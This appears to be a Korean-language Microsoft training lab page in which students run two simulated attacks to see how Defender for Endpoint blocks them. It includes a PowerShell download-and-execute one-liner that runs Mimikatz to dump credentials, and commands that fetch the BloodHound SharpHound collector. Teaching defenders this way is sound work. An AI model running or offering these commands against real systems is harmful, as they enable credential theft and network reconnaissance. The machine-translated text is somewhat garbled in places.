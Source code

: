 # 모듈 2 데모 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

**참고** 이 데모의 성공적인 완료는 필수 구성 요소 문서의[ 모든 단계를 ](00-prerequisites.md)완료하는 데 따라 달라집니다.

## 시뮬레이션된 공격

이 작업에서는 두 개의 시뮬레이션된 공격을 실행하여 엔드포인트용 Microsoft Defender 기능을 탐색합니다.

1. 브라우저의 Microsoft Defender XDR 포털에 아직 없는 경우 테넌트에 대한 관리 로그인한 Microsofthttps://security.microsoft.com) Defender XDR로 이동합니다.

WIN1에서 *PowerShell**을 사용하여 *시뮬레이션된* 공격을 실행하여 엔드포인트용 Microsoft Defender 기능을 탐색*합니다.

`Attack 1: Mimikatz - Credential Dumping`

1. WIN1 컴퓨터의 *검색 창에 명령을** 입력**하고 관리자** 권한으로 실행을 선택합니다**.*

1. 다음 명령을 복사하여 관리istrator: 명령 프롬프트 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Access가 *거부되었다는* 메시지와 위협을 표시하는 *팝업 메시지가 `Microsoft Defender Antivirus, Windows Security Virus and threats protection` 표시됩니다*.

1. 종료를 **입력**하고 Enter 키를 눌러 **관리istrator: 명령 프롬프트** 창을 종료**합니다**.

`Attack 2: Bloodhound - Collection`

1. WIN1 컴퓨터의 *검색 창에 PowerShell**을 입력**하고 Windows PowerShell**을 선택한 **다음 관리자** 권한으로 실행을 선택합니다**.*

1. 다음 명령을 복사하여 관리istrator: Windows PowerShell 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**참고:** 명령을 한 번에 하나씩 복사, 붙여넣기 및 실행하는 것이 좋습니다. 메모장* 열고 *명령을 임시 파일에 복사하여 이 작업을 수행할 수 있습니다. 첫 번째 명령은 Atomic Red Team* 폴더가 있는 동일한 폴더에 ExternalPayloads*라는 *폴더를 *만듭니다. 두 번째 명령은 BloodHound GitHub 리포지토리에서 *SharpHound.ps1** 파일을 다운로드*하고 ExternalPayloads 폴더에 *저장합니다*.

1. 발견된 위협이* 표시되면 팝업 메시지가 `Windows Security Virus and threats protection` 표시됩니다*.

1. 다음 명령을 복사하여 관리istrator: Windows PowerShell 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 출력이 True*이*면 Microsoft Defender 바이러스 백신 맬웨어 페이로드 파일이 제거되지 않았습니다. 출력이 False*이*면 Microsoft Defender 바이러스 백신 맬웨어 페이로드 파일이 제거되었습니다. 위쪽 화살표 키를 사용하여 출력이 False*가 *될 때까지 명령을 반복합니다.

## 데모를 완료했습니다.
